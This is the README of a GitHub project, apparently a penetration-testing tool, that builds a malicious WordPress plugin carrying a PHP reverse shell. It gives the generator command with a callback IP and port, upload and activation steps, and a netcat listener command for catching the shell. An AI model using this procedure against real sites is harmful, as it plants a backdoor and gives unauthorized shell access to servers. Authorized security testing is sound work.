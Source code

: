 # MalWordPlugin

MalWordPlugin is a proof-of-concept (PoC) tool that generates a malicious WordPress plugin packaged as a ZIP file. This plugin can be used for penetration testing, demonstrating potential security vulnerabilities in WordPress environments.

The project is inspired by the malicious-wordpress-plugin repository by wetw0rk and incorporates a PHP reverse shell from PentestMonkey. Additionally, insights gained from a cybersecurity certification were applied to extend and modify the original concept.

## Features

* Plugin Generator: Automatically creates a ZIP file containing a custom malicious WordPress plugin.
* Customizable Payload: Modify the plugin’s behavior and payload to suit different penetration testing scenarios. I used the PHP Reverseshell from PentestMonkey as example.
* Ready-to-Deploy: The generated ZIP file can be directly uploaded and activated in a WordPress installation.

## Installation
### Prerequisites

* Python 3.12.*
* Basic understanding of WordPress plugins and their deployment
* netcat shortcut named nc, if the tool should start a listner

### Steps

1. Clone the repository:

```bash
git clone https://github.com/username/malwordplugin.git
cd malwordplugin
```

2. Run the tool to generate the ZIP file:

```bash
python3 malwordplugin.py -d 192.168.1.1 -p 4242 
```

3. The ZIP file will be created in the project directory (e.g., malicious.zip).

## Usage

1. Upload the generated ZIP file to a WordPress installation via the admin panel (Plugins > Add New > Upload Plugin).
2. Activate the plugin.
3. Start a listener on your attack machine (e.g., using netcat), or let the plugin do this for you:
```bash
nc -lvnp <port>
```
4. Trigger the plugin to initiate the reverse shell connection. (The generator tells you the url templates)

## Options

| short | long | description |
| ----- | ----- | ----- |
| -d | --dest | listening ip for the revesesehll |
| -p | --port | the port to connect to |
| -l | --listner | start a listner on the port given |
| -o | --output | name or path for the plugin zip to be written hin (.zip will be added by default) |

## Technologies Used

* Python: Core logic for generating the WordPress plugin.
* PHP: Payload execution, including reverse shell functionality.
* WordPress: Target platform for plugin deployment.

## Disclaimer

This project is intended for educational purposes only. Use it responsibly and only on systems you own or have explicit permission to test. Unauthorized use of this tool may be illegal.

## License

MIT License
